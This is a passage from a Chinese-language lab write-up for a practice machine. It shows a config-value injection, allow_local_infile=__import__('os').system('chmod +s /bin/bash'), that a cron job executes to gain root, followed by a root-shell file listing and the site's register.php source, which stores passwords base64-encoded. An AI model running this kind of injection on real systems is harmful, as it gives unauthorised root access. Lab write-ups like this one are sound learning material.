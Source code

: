 ```bash
allow_local_infile=__import__('os').system('chmod +s /bin/bash')
```

过一会等定时任务执行即可！

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506210258230.png" alt="image-20250621025335514" style="zoom:33%;" />

## 一些有意思的源代码！！！

感谢大佬的靶场，学到了很多，是个很有意思的靶场！！！！

```html
darksoul@disguise:/var/www/dark# ls -la
total 76
drwxr-xr-x 4 www-data www-data 4096 Apr  2 04:39 .
drwxr-xr-x 4 root     root     4096 Mar 31 21:07 ..
-rw-r--r-- 1 root     root      905 Mar 31 23:01 captcha.php
-rw-r--r-- 1 root     root       95 Apr  1 03:58 config.php
-rw-r--r-- 1 root     root     1736 Apr  1 21:24 functions.php
-rw-r--r-- 1 root     root      660 Apr  1 05:13 image_handler.php
drwxr-xr-x 2 www-data www-data 4096 Jun 20 13:47 images
-rw-r--r-- 1 root     root     1225 Apr  1 05:16 index.php
-rw-r--r-- 1 root     root     2088 Apr  1 04:14 login.php
-rw-r--r-- 1 root     root      237 Mar 31 22:00 logout.php
drwxr-xr-x 2 root     root     4096 Apr  1 22:59 manager
-rw-r--r-- 1 root     root     1142 Apr  1 21:29 profile.php
-rw-r--r-- 1 root     root     4080 Apr  1 04:28 register.php
-rw-r--r-- 1 root     root     4350 Mar 31 22:49 style1.css
-rw-r--r-- 1 root     root     4474 Apr  1 03:40 style2.css
-rw-r--r-- 1 root     root     2342 Apr  1 03:41 style3.css
-rw-r--r-- 1 root     root     2801 Apr  1 04:43 style4.css
darksoul@disguise:/var/www/dark# cat register.php
<?php 
include 'functions.php';

if($_SERVER['REQUEST_METHOD'] == 'POST') {
    $username = $_POST['username'];
    $password = base64_encode($_POST['password']);
    $captcha = $_POST['captcha'];
    
    if(!verify_captcha($captcha)) {
        $error = "验证码不正确，请重新输入";
        generate_captcha();
    } else {
        $conn = db_connect();
        
        // 检查用户名是否已存在
        $check_stmt = $conn->prepare("SELECT id FROM users WHERE username = ?");
        $check_stmt->bind_param("s", $username);
        $check_stmt->execute();
        $check_stmt->store_result();
        
        if($check_stmt->num_rows > 0) {
            $error = "用户名已存在，请选择其他用户名";
            generate_captcha();
        } else {
            $stmt = $conn->prepare("INSERT INTO users (username, password, isAdmin) VALUES (?, ?, FALSE)");
            $stmt->bind_param("ss", $username, $password);
            
            if($stmt->execute()) {
                $_SESSION['register_success'] = true;
                header("Location: register.php");
                generate_captcha();
```